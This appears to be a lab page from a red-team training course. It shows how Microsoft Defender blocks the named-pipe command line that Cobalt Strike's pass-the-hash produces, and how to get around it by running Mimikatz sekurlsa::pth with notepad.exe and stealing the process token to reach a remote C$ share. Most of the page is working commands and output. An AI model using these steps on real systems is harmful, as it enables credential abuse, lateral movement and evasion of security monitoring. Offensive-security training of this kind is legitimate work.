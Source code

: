 Defender also has the ability to inspect the command line arguments of a process and can prevent it from starting if it has malicious content.  A common place you may find this is with the built-in `pth` command.
```

beacon> getuid
[*] You are DEV\bfarmer (admin)

beacon> pth DEV\jking 59fc0f884922b4ce376051134c71e22c
```
  

We can see from the console log that this expands to:
```
sekurlsa::pth /user:"jking" /domain:"DEV" /ntlm:59fc0f884922b4ce376051134c71e22c /run:"%COMSPEC% /c echo 9c91bb58485 > \\.\pipe\34a65a"
```
  

However, you will get an access denied error when Mimikatz tries to call CreateProcessWithLogonW.
```
user	: jking
domain	: DEV
program	: C:\Windows\system32\cmd.exe /c echo 9c91bb58485 > \\.\pipe\34a65a
impers.	: no
NTLM	: 59fc0f884922b4ce376051134c71e22c
ERROR kuhl_m_sekurlsa_pth ; CreateProcessWithLogonW (0x00000005)
```
  

It's not entirely obvious on the surface that this is caused by Defender, but you can see the alert in both in the GUI and via `Get-MpThreatDetection`.  The "CmdLine" prefix gives away the origin of the detection.  In this case, it's the `echo x > \\.\pipe\` pattern as this is synonymous with named pipe impersonation (also obvious from the title of the alert).

  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/500/817/5f7/defender-cmdline.png)

  
```
ActionSuccess                  : True
AdditionalActionsBitMask       : 0
AMProductVersion               : 4.18.2205.7
CleaningActionID               : 3
CurrentThreatExecutionStatusID : 0
DetectionID                    : {2773A98F-C5FE-4BA2-B6F1-96C2F4D296D4}
DetectionSourceTypeID          : 2
DomainUser                     : NT AUTHORITY\SYSTEM
InitialDetectionTime           : 10/30/2023 2:25:56 PM
LastThreatStatusChangeTime     : 10/30/2023 2:26:42 PM
ProcessName                    : Unknown
RemediationTime                : 10/30/2023 2:26:42 PM
Resources                      : {CmdLine:_C:\Windows\System32\cmd.exe /c echo 9c91bb58485 > \\.\pipe\34a65a}
ThreatID                       : 2147735445
ThreatStatusErrorCode          : 0
ThreatStatusID                 : 4
PSComputerName                 :
```
  

The reason this returns an access denied (i.e. error code 5) is because the enforcement is coming from the Windows Defender driver in the kernel.  This driver receives [notifications](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntddk/nc-ntddk-pcreate_process_notify_routine_ex) when new processes are being created, which contain a  [PS_CREATE_NOTIFY_INFO](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntddk/ns-ntddk-_ps_create_notify_info) structure.  The eagle-eyed will spot the _CreationStatus_ member, which is the NTSTATUS value to return.  The driver can simply set this to STATUS_ACCESS_DENIED to prevent the process from starting, and that error code propagates down to the caller.

Bypassing or disabling kernel-level callbacks is out of scope for RTO.  The easiest workaround is to find a way to achieve the same goal but in a way that doesn't involve the same command line arguments.  For pass-the-hash, we can simply start an arbitrary process and steal its token manually.
```
beacon> mimikatz sekurlsa::pth /user:"jking" /domain:"DEV" /ntlm:59fc0f884922b4ce376051134c71e22c /run:notepad.exe

user	: jking
domain	: DEV
program	: notepad.exe
impers.	: no
NTLM	: 59fc0f884922b4ce376051134c71e22c
  |  PID  17896
  |  TID  11384
  |  LSA Process is now R/W
  |  LUID 0 ; 8586493 (00000000:008304fd)
  \_ msv1_0   - data copy @ 00000129694D4070 : OK !
  \_ kerberos - data copy @ 00000129694CCD28

beacon> steal_token 17896
[+] Impersonated DEV\bfarmer

beacon> ls \\web.dev.cyberbotic.io\c$
[*] Listing: \\web.dev.cyberbotic.io\c$\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     08/15/2022 18:50:13   $Recycle.Bin
          dir     08/10/2022 04:55:17   $WinREAgent
          dir     08/10/2022 05:05:53   Boot
          dir     08/18/2021 23:34:55   Documents and Settings
          dir     08/19/2021 06:24:49   EFI
          dir     08/15/2022 18:58:09   inetpub
          dir     05/08/2021 08:20:24   PerfLogs
          dir     09/26/2023 08:38:47   Program Files
          dir     08/10/2022 04:06:16   Program Files (x86)
          dir     10/30/2023 13:58:46   ProgramData
          dir     08/15/2022 18:31:08   Recovery
          dir     11/02/2022 09:32:00   System Volume Information
          dir     08/30/2022 17:51:08   Users
          dir     09/26/2023 08:51:14   Windows
 427kb    fil     08/10/2022 05:00:07   bootmgr
 1b       fil     05/08/2021 08:14:33   BOOTNXT
 12kb     fil     10/30/2023 13:27:39   DumpStack.log.tmp
 384mb    fil     10/30/2023 13:27:39   pagefile.sys
 ```